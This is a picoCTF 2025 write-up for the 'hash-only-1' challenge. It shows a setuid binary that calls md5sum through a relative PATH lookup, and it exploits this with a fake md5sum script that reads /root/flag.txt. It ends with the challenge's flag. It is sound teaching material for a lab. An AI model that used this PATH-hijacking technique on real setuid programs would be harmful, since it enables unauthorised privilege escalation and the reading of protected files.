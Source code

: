 # hash-only-1

## Overview:
* Binary exploitation
* Medium
* picoCTF2025

## Description:
Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!

Additional details will be available after launching your challenge instance.

## Write-up:
Launch instance. Connect to it.

Check the directory using ls:
```bash
ctf-player@pico-chall$ ls
flaghasher
ctf-player@pico-chall$ 
```
Check the flaghasher binary using file:
```bash
ctf-player@pico-chall$ file flaghasher 
flaghasher: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c4fbd07a602b4570abdcfe273078247bdc96b5b2, for GNU/Linux 3.2.0, not stripped
ctf-player@pico-chall$ 
```
Now we know the architecture of the file. It's x86_64.

Use strings and grep flag to check what can we get:
```bash
ctf-player@pico-chall$ strings flaghasher | grep flag
Computing the MD5 hash of /root/flag.txt.... 
/bin/bash -c 'md5sum /root/flag.txt'
ctf-player@pico-chall$ 
```
Seems like it's using md5sum command to hash the /root/flag.txt

We can create our own md5sum file that'll cat the /root/flag.txt:

```bash
ctf-player@pico-chall$ cat > md5sum << 'EOF'
> #!/bin/bash
> echo "flag: "
> cat /root/flag.txt
> echo ""
> EOF
```
Double check:
```bash
ctf-player@pico-chall$ cat md5sum 
#!/bin/bash
echo "flag: "
cat /root/flag.txt
echo ""
ctf-player@pico-chall$
```
Yes it has been written.
Now we need to change mod for md5sum in order for flaghasher to execute it:
```bash
ctf-player@pico-chall$ chmod +x md5sum 
ctf-player@pico-chall$ 
```
We also need to set the PATH to ours:
```bash
ctf-player@pico-chall$ export PATH=$(pwd):$PATH
ctf-player@pico-chall$ echo $PATH
/home/ctf-player:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
ctf-player@pico-chall$ 
```
Now we can run the binary and the the flag!
```bash
ctf-player@pico-chall$ ./flaghasher 
Computing the MD5 hash of /root/flag.txt.... 

flag: 
```

## Flag
```
picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_c11be7b4}
```




